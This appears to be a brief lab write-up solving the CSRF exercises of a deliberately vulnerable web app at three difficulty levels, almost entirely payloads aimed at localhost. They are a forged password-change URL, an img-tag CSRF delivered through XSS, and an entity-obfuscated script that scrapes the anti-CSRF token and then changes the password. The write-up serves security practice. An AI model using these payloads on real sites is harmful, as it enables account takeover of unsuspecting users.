 # CSRF

## low

```
http://localhost/vulnerabilities/csrf/?password_new=qwerty&password_conf=qwerty&Change=Change
```

## medium

XSS this

`<img src="http://localhost/vulnerabilities/csrf/?password_new=qwerty&password_conf=qwerty&Change=Change">`

## high

bypass csrf token

XSS this

```js
<img src="" onerror="javascri&#112;t:a=new XMLHtt&#112;Request();a.o&#112;en('GET','htt&#112;://localhost/vulnerabilities/csrf/');a.send();a.onload=()=>{if(a.readyState==4&&a.status==200){b=new XMLHtt&#112;Request();b.o&#112;en('GET','htt&#112;://localhost/vulnerabilities/csrf/?&#112;assword_new=qwerty&&#112;assword_conf=qwerty&Change=Change&user_token='+a.res&#112;onse.substr(a.res&#112;onse.search(/[0-9a-zA-Z]{32}/),32));b.send();}else{console.log(a.status);}};">
```
